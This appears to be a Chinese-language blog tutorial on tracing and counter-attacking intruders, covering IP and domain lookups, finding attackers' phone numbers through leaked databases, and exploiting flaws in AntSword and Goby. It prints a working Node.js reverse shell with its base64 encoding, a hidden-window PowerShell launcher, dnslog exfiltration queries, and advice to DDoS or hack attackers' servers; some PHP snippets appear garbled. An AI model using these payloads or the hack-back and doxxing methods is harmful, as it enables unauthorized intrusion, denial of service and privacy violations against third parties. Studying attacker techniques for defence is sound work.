# 1. 攻击后溯源

所谓被攻击后溯源，意思就是网站已经被攻击者攻击了，而我们需要的是利用攻击者遗留下来的木马文件、访问日志、防火墙日志、态势感知日志等信息去获取相关的资料，在对其资料中可用的内容进行分析溯源。



## 1.1. IP地址

关于IP地址，是攻击者最容易被遗留下来的数据，类似IP地址可能会遗留在中间件的日志中、Windows中RDP远程连接日志、Linux中SSH远程连接依旧防火墙或态势感知中攻击行为IP地址，都可能会遗留下来。

### 1.1.1. IP地址定位

这里我用防火墙捕获到的IP地址做测试，这个IP地址好像是某个视频厂商来远程调试，导致误报出现的攻击，具体忘记了是某康还是某视的了。

```
https://www.opengps.cn/Data/IP/ipplus.aspx
https://chaipip.com/
https://www.ipplus360.com/
```



### 1.1.2. IP地址分析

当然IP地址定位只是为了更好的找到攻击者的位置，但是，更多的时候只有说出现大问题的时候才会具体去找人，而攻击者基本上都会隐藏自己的IP地址。所以，IP地址定位多数情况下用处不多。

更好的是将IP地址进行分析，例如是否存在域名等等，例如这里使用微步查看是否曾经有人给该IP打过标签，有没有备案过域名，如果使用的是云服务器，大概率可能会对其备案域名。


由于这里溯源反制比较麻烦，没有真实的IP地址，确实不好对其进行分析，又不能拿别人的博客地址或者什么的来进行分析，这样就是搞别人的隐私了。

## 1.2. 域名

这里就是依据上述获取到相关的域名才好对其进行分析，例如`www.baidu.com`完全可用去进行whois查询、备案查询、天眼查、fofa查询等。

可以看一下，我之前注册的域名，并没有使用，也被我关了，可以看到公司那里，就是我的名字，到这里就基本上可能能获取到姓名了，但是需要注意的是，有很多情况下，攻击者基本上都是使用免实名制的域名，那就不好办了.....

如果注册公司直接显示的是某家公司，那就可以使用一些查公司的例如天眼查、企查查就可以找到注册人了，通常也就能够获取到手机号了。



## 1.3. 手机号/QQ

比如，你访问IP地址所属的域名，可以在域名网站中找一找，通常在网站中都会存在例如打赏、微信号、QQ等，如果能够获取到QQ号更好，那么就可以根据QQ号在**库中反差。

由于在网站中获取到手机号基本上是不太可能的，而想要获取到手机号其实是比较麻烦的。而QQ号或微信号是最容易获取的，如果能够加上好友那最好。

拿到qq可以到你懂的的上面去搜，基本上也就能获取到相应的手机号，获取到手机号，那不基本上就是想怎么搞都可以了呀。

```
手机号：
支付宝、微信、微博等等，通过这些方式，可能能够获取到图片等等，还有可能获取到照片。
```



## 1.4. ID

ID这个东西吧，有些人会习惯性的各大网站都会使用同一个ID，那就可以直接百度搜索么，包括可以直接拿着ID去圈子里面问问，有没有人认识。

你看我这ID，遍地都是......无语了，我要改名字了，当然在这个圈子里面，谁没被人家恶搞过.......

```
百度搜索、谷歌搜索、src搜索、微博搜索、微信ID搜索、豆瓣、贴吧、知乎等等。
```



## 1.5. 木马样本

木马样本中有可能也能够找到一些相关数据，例如我这里使用cs生成一个木马，当然啦，没做免杀，直接获取到木马的IP地址。



## 1.6. 总结

可能整体来说很简单，目前根据IP地址能够进行溯源的也就这些了，基本上都是看裤子来解决，不靠裤子，除非去加上微信去忽悠，否则获取手机号确实没那么容易。

当然如果你条件允许，你直接通过获取到的IP直接攻击他，直接拿下他服务器那什么获取不到.......

```
攻击画像大概模型：
姓名/ID：
攻击IP：
地理位置：
QQ:
IP地址所属公司：
IP地址关联域名：
邮箱：
手机号：
微信/微博/src/id证明：
人物照片：
跳板机（可选）：
关联攻击事件：
```

# 2. 攻击中反制

攻击中反制，就是说攻击者暂未停止对其攻击，还处于攻击的阶段，这里就需要涉及到很多蓝队的知识了。

## 2.1. 定位准确

所谓的定位准确意思就是要准确的定位到被攻击的服务器、主机、人等。及时的登陆涉事主机上排查，例如依靠态势感知、服务器、蜜罐等设备获取到出现异常的主机IP。

主要关注：RDP日志、SSH登陆日志、中间件日志、网络连接、进程、代理日志等这些来获取IP地址、跳板机IP、木马文件等。

## 2.2. 反制手段

### 2.2.1. 钓鱼邮件反制

可以通过钓鱼邮件的附件进行逆向分析、查看源码等方式获取到IP地址，对IP地址进行渗透攻击，最简单的办法，拿不下就干趴它，直接对其进行DDOS攻击等，通常用于攻击的服务器如果是云服务器，均不会购买太好的配置。

### 2.2.2. 蚁剑反制

**此漏洞在AntSword2.7.1版本上修复 ，所以适用于AntSword2.7.1以下版本。**

此漏洞为AntSword连接WebShell失败时对html代码的解析，导致xss漏洞，而使html代码不在浏览器解析而是在服务器上解析的话需要用到nodejs，所以AntSword使用了nodejs，本文章就讲解利用xss漏洞执行并调用nodejs的库反弹shell拿到权限。

```
下载地址：
蚁剑：https://github.com/AntSwordProject/antSword/archive/refs/tags/2.0.7.zip
加载器：https://github.com/AntSwordProject/AntSword-Loader/archive/refs/tags/2.0.1.zip
```

这里我们随意搭建一个网站，让蚁剑连接上去就可以了。


#### 2.2.2.1. 测试XSS漏洞

这里我们修改攻击者的木马，将木马中的内容修改成弹窗木马，修改后，攻击者再次连接木马后就会出现弹出“250”的窗口。到这里就可以证明是存在xss漏洞的。

```
<?php header("HTTP/1.1 500 ") ?>
```



#### 2.2.2.2. RCE漏洞反弹shell

这里我们就可以使用蚁剑的RCE漏洞反弹shell获取攻击者的主机。

首先这里我们使用nc监听2200端口，等待反弹shell。



修改木马中的代码，修改为反弹shell的代码，利用nodejs库反弹shell的代码(payload)：

```js
var net = require("net"), sh = require("child_process").exec("cmd.exe");
var client = new net.Socket();
client.connect(2200, "192.168.10.10", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

以上代码通过创建Socket来连接192.168.10.30(被攻击的电脑ip) 的2200端口(Netcat监听的端口)

将以上代码进行base64加密，加密后的密文：

```
dmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLCBzaCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjKCJjbWQuZXhlIik7CnZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwpjbGllbnQuY29ubmVjdCgyMjAwLCAiMTkyLjE2OC4xMC4xMCIsIGZ1bmN0aW9uKCl7Y2xpZW50LnBpcGUoc2guc3RkaW4pO3NoLnN0ZG91dC5waXBlKGNsaWVudCk7c2guc3RkZXJyLnBpcGUoY2xpZW50KTt9KTs
```

并替换掉我们前边写的alert(250)代码,最终写到shell.php中的代码如下：

```
<?PHP
 header("HTTP/1.1 500 Not \");
 ?>
```

反弹成功了，别问我这里为什么又变成kali了，因为我测试了半天一直不能反弹，结果发现是被杀毒软件拦截了.........



### 2.2.3. goby反制

**这里由于我这版本goby可能版本太高了，并未复现出来**

制作一个钓鱼页面，也就是一个弹窗XSS页面，让其goby去扫描，然后等到扫描结束后，去资产中点击IP地址，就会出现弹窗。

```
<?php
 header("X-Powered-By: PHP/");
?>
```



#### 2.2.3.1. 修改PHP代码

这里将修改php代码，同时在创建一个1.js的代码。

```
php代码：
<?php
 header("X-Powered-By: PHP/");
?>
```

弹计算机代码：

```
js代码：
(function(){
require('child_process').exec('calc.exe');
})();
```

上线代码（CS的powershell）：

```
(function(){
require('child_process').exec('powershell -nop -w hidden -encodedcommand JABXXXXXXXX......');
})();
```



### 2.2.4. dnslog反制

攻击方在对目标进行攻击的时候，有时候会遇到无回显的情况，那么就会使用结合dnslong的方式，这里能够将回显的内容带回，例如：

```
ping xx.dnslog.com
load_file(CONCAT('\\',(select hex(table_name) from information_schema.tables where table_schema=database() limit 0,1),'.xx.dnslog.com'))
```

一般情况下在安全设备的日志中是能够看到dnslong的地址的，如果没有告警，那么就只能从相关的中间件日志中靠经验就搜集了，可以使用一些关键字来查看。

#### 2.2.4.1. 反制方式

接下来，可以去网上找提供PING服务的网站。把上面提取出的攻击者的dnslog平台地址做为ping的目标地址，执行ping操作。如果攻击这用的是网络上找到dnslog平台，大多情况下ping出的地址都是127.0.0.1，如果是自己搭建的dnslog平台，设置不规范的情况下会显示vps的IP。



#### 2.2.4.2. 查看效果

可以看到这边就会有很多的日志，那么这样就会一直占用，导致这个地址无法使用，当然如果是自己搭建的，那么就相当于这个平台废掉了，如果是公开的，很简单抓到一个ping一个。

你也可以在前面添加一些内容，恶搞他。



### 2.2.5. Cobaltstrike反制

由于这里需要设置环境以及一些java编译，我环境不足，我就不演示了，我这边多给几个参考文章。

[CVE-2022-39197 CS RCE复现分析](http://www.bmth666.cn/2023/03/22/CVE-2022-39197-CS-RCE%E5%A4%8D%E7%8E%B0%E5%88%86%E6%9E%90/)

[反制Cobaltstrike的那些手段](https://forum.butian.net/share/1975)

[最新CS RCE曲折的复现路](https://mp.weixin.qq.com/s/l5e2p_WtYSCYYhYE0lzRdQ)

[溯源反制思路整合总结](https://www.ddosi.org/suyuan/)

[HW多人运动溯源及反制指北](https://xz.aliyun.com/t/10268#toc-7)

[攻防演练中防守方的骚姿势](https://www.anquanke.com/post/id/219059)

## 2.3. 总结

在攻击中，其实更多的情况下应该是靠一些相关的安全设备来进行防护，你靠人为去发现，除非就一台主机一台服务器，你盯着看，否则的话，还是需要依靠相关的安全设备，同时攻击中多数还是需要根据业务的流量来判断究竟是属于什么类型的攻击，比如说服务器被下了木马，那么木马是怎么来的，是人为导致的还是服务器存在漏洞，所谓点鼠标的猴子，直接拉黑名单。

# 3. 攻击前反制

所谓攻击前反制，就是在还未开始被攻击前就应该做好相关的安全防护，例如资产是审查、安全设备安装、高危漏洞的检查、补丁更新等。

并且攻击前所做的和hvv前期的准备没什么区别，首先应当充分地了解自身安全防护状况与存在的不足，找出自身的脆弱点并及时进行加固，为后续工作提供能力支撑。这就是准备阶段的主要工作。

在日常中对未知资产排查、安全设备0day排查、系统漏洞排查、系统弱口令排查、系统配置缺陷排查、内网集权系统排查、协助安全加固等技术性工作。

直接参考下面的文章中的内容：

[攻防演练合集 | 3个阶段，4大要点，蓝队防守全流程纲要解读](https://www.anquanke.com/post/id/275234#:~:text=1%20%E4%BA%8B%E5%89%8D%E5%87%86%E5%A4%87%E5%B7%A5%E4%BD%9C%E2%80%94%E2%80%94%E8%B5%84%E4%BA%A7%E6%A2%B3%E7%90%86%E3%80%81%E8%84%86%E5%BC%B1%E6%80%A7%E8%AF%84%E4%BC%B0%E6%95%B4%E6%94%B9%E3%80%81%E6%BC%8F%E6%B4%9E%E6%97%A0%E6%95%88%E5%8C%96%E5%AE%9E%E6%96%BD%E3%80%81%E4%B8%9C%E8%A5%BF%E5%90%91%E6%B5%81%E9%87%8F%E6%8E%A7%E5%88%B6%EF%BC%9B%202,%E4%BA%8B%E4%B8%AD%E5%80%BC%E5%AE%88%E5%B7%A5%E4%BD%9C%E2%80%94%E2%80%94%E6%94%BB%E5%87%BB%E9%98%9F%E5%85%A5%E4%BE%B5%E7%9B%91%E6%8E%A7%E3%80%81%E6%94%BB%E5%87%BB%E5%91%8A%E8%AD%A6%E7%A0%94%E5%88%A4%E3%80%81%E6%94%BB%E5%87%BB%E4%BA%8B%E4%BB%B6%E8%B0%83%E6%9F%A5%E3%80%81%E5%86%85%E5%AD%98%E9%A9%AC%E6%94%BB%E5%87%BB%E7%9B%91%E6%8E%A7%E3%80%81%E6%96%87%E4%BB%B6%E5%AE%8C%E6%95%B4%E6%80%A7%E7%9B%91%E6%8E%A7%E3%80%810day%E6%94%BB%E5%87%BB%E4%B8%93%E9%A1%B9%E9%98%B2%E6%8A%A4%EF%BC%9B%203%20%E4%BA%8B%E5%90%8E%E6%BC%94%E7%BB%83%E5%90%8E%E7%BB%AD%E2%80%94%E2%80%94%E5%B9%B3